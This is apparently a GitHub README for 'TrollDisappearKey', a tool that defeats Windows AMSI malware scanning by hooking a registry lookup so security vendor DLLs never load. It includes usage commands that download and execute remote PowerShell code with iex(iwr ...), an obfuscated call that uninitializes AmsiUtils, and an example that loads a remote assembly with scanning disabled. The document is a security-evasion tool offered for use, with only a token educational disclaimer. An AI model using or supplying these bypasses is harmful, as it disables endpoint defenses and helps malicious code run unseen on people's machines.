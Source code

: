 ## UPDATES
```diff
! UPDATE 26/05/2025
! Added a counter for the .cs/.ps1 files so that after it has completed the redirection of "Software\Microsoft\AMSI\Providers", it will unhook RegOpenKeyExW
! This is to remove the overhead introduced by hooking every RegOpenKeyExW call and causing problems when RegOpenKeyExW is legitimately invoked
! For the powershell reflective loading and .ps1 script, MAKE SURE the process has fully loaded, can run some arbitrary commands first..
```

# TrollDisappearKey
<br>
<b>bypass clr amsi</b> <br>
TrollDisappearKey.cs   -> compile into a .exe that can load .exe assemblies without amsi scanning taking place during assembly.load() <br>
<br>
<b>bypass powershell amsi</b> <br>
TrollDisappearKeyPS.cs -> compile into a .dll to reflectively load <br>
TrollDisappearKeyPS.ps1 -> copy paste into powershell (most likely to get flagged)

# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load any .net assembly we want. For the powershell amsi, its somewhat similar, we break the vendor dll loading and call uninitialize to trigger a reinitialize. 


## .exe Usage (does not require admin) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## .powershell Usage (does not require admin)

```
##For PS Script
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.ps1 -UseBasicParsing).content

##For PS dll reflective after dl to disk
$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.cs -UseBasicParsing).content
Add-Type $code
[TrollDisappearKeyPS]::DisappearKey()
([Ref].Assembly.GetType([System.String]::Join("", "S", "y", "s", "t", "e", "m", ".", "M", "a", "n", "a", "g", "e", "m", "e", "n", "t", ".", "A", "u", "t", "o", "m", "a", "t", "i", "o", "n", ".", "A", "m", "s", "i", "U", "t", "i", "l", "s")).GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq Uninitialize).Invoke($object,$null)
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```

## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Disclaimer
Should only be used for educational purposes!







